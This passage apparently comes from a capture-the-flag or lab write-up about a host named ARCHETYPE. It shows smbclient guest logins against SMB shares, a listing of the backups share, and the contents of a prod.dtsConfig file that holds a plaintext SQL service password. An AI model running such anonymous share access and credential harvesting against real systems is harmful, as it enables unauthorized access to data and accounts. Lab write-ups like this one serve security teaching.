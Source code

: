 ```bash
smbclient //$ip//C$ -U " "%" "
tree connect failed: NT_STATUS_ACCESS_DENIED
```

This indicates that the guest user doesn’t have access to these shares. But, we attempting to access the backups share, we were introduced with a shell!

```bash
smbclient //$ip\\backups -U " "%" "                                                                                             
Try "help" to get a list of possible commands.                                                                                         
smb: \>  
```

I typed ‘help’ in the command prompt and found that the majority of the commands were pretty standard shell commands. For instance, I wanted to list the contents of the folder:

```bash
smb: \> dir
  .                                   D        0  Mon Jan 20 14:20:57 2020                                                             
  ..                                  D        0  Mon Jan 20 14:20:57 2020                                                             
  prod.dtsConfig                     AR      609  Mon Jan 20 14:23:02 2020                                                             
                                                                                                                                        
                10328063 blocks of size 4096. 8253724 blocks available 
```

I found that there’s some type of configuration file named ‘prod.dtsConfig‘ there. To read its contents, I used the following command:

```bash
smb: \> more prod.dtsConfig
```

```xml
<DTSConfiguration>                                                                                                                     
    <DTSConfigurationHeading>                                                                                                          
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.201
9 10:01:34"/>                                                                                                                          
    </DTSConfigurationHeading>                                                                                                         
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String"> 
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Pers
ist Security Info=True;Auto Translate=False;</ConfiguredValue>                                                                         
    </Configuration>                                                                                                                   
</DTSConfiguration>
```
